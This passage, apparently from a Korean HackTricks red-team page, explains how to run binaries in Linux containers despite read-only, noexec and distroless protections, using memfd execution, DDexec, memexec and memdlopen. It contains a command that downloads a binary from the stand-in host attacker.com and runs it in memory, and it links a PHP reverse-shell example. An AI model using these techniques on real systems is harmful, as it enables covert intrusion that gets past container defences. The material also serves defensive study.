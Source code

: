 # FS 보호 기능 우회: 읽기 전용 / 실행 불가 / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 처음부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **저희가 채용 중입니다!** (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서는 이 페이지에서 언급된 기술에 대해 더 자세히 설명된 내용을 찾을 수 있습니다:

* [**DEF CON 31 - 은밀하고 회피를 위한 Linux 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 메모리 dlopen()을 사용한 은밀한 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 불가 시나리오

리눅스 머신에서 **읽기 전용 (ro) 파일 시스템 보호**가 특히 컨테이너에서 자주 발견되는 것이 점점 더 일반적해졌습니다. 이는 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만으로 ro 파일 시스템을 사용하여 컨테이너를 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되어 있더라도 **`/dev/shm`**은 여전히 쓰기 가능하므로 디스크에 아무것도 쓸 수 없는 것은 가짜입니다. 그러나 이 폴더는 **실행 불가 보호**로 마운트되므로 여기에 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
적색 팀 관점에서는 시스템에 이미 없는 바이너리(백도어 또는 `kubectl`과 같은 열거자)를 **다운로드하고 실행하는 것이 복잡**해집니다.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, 인터프리터가 머신 내에 있으면 **쉘 스크립트**(`sh`가 설치되어 있는 경우) 또는 **파이썬 스크립트**(`python`이 설치된 경우)와 같이 **스크립트를 실행**할 수 있습니다.

그러나 이것만으로는 바이너리 백도어 또는 실행해야 할 다른 바이너리 도구를 실행할 수 없을 수도 있습니다.

## 메모리 우회

파일 시스템이 실행을 허용하지 않더라도 바이너리를 실행하려면 **메모리에서 실행**하는 것이 가장 좋습니다. 왜냐하면 **보호 기능이 적용되지 않기 때문**입니다.

### FD + exec 시스템 호출 우회

**Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 머신 내에 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 이를 메모리 파일 디스크립터에 저장한 다음(**`create_memfd` 시스템 호출**), **fd를 실행할 파일로 지정**하는 **`exec` 시스템 호출**을 호출할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 이 프로젝트에 바이너리를 전달하면 **바이너리를 압축하고 b64로 인코딩**하고 **해당 언어로 스크립트를 생성**하여 `create_memfd` 시스템 호출을 통해 만든 **fd**에 **디코딩 및 압축 해제**하는 지침이 포함되어 있습니다. 그리고 **실행**하기 위해 **exec** 시스템 호출을 호출합니다.

{% hint style="warning" %}
PHP 또는 Node와 같은 다른 스크립팅 언어에서는 **스크립트에서 원시 시스템 호출을 호출하는 기본 방법**이 없기 때문에 `create_memfd`를 호출하여 **바이너리를 저장할 메모리 fd**를 만들 수 없으므로 이 방법은 작동하지 않습니다.

또한 `/dev/shm`에 파일이 있는 **일반적인 fd**를 만들어도 **실행할 수 없습니다**. 왜냐하면 **실행 불가 보호**가 적용되기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)는 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 기술로, **프로세스에서 실행되는 어셈블리 코드를 제어**하여 **쉘코드**를 작성하고 프로세스를 **임의의 코드를 실행**하도록 "변이"시킬 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**을 사용하면 **메모리에서 자체 쉘코드** 또는 **임의의 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. 이것은 **DDexec 셸코드를 데몬화**한 것으로, **다른 이진 파일을 실행하려고 할 때마다 DDexec를 다시 시작할 필요가 없습니다. 대신 DDexec 기술을 통해 memexec 셸코드를 실행하고 이 데몬과 통신하여 새로운 이진 파일을 전달하고 실행할 수 있습니다.**

**memexec를 사용하여 PHP 역쉘에서 이진 파일을 실행하는 예제**는 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 찾을 수 있습니다.

### Memdlopen

DDexec와 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 이진 파일을 로드하여 나중에 실행하는 더 쉬운 방법**을 제공합니다. 이를 통해 종속성이 있는 이진 파일을 로드할 수도 있습니다.

## Distroless Bypass

### Distroless란

Distroless 컨테이너에는 **특정 응용 프로그램이나 서비스를 실행하는 데 필요한 최소한의 구성 요소만 포함**되어 있습니다. 이는 라이브러리 및 런타임 종속성과 같은 것을 포함하지만 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 큰 구성 요소는 제외됩니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거**함으로써 컨테이너의 **공격 표면을 줄이고 악용될 수 있는 취약점의 수를 최소화**하는 것입니다.

### 역쉘

Distroless 컨테이너에서는 보통 `sh`나 `bash`와 같은 것을 찾을 수 없을 수도 있습니다. 또한 `ls`, `whoami`, `id`와 같은 이진 파일도 찾을 수 없습니다. 이는 일반적으로 시스템에서 실행하는 모든 것들입니다.

{% hint style="warning" %}
따라서, 보통 하는 것처럼 **역쉘을 얻거나 시스템을 열거할 수 없을 것**입니다.
{% endhint %}

그러나,
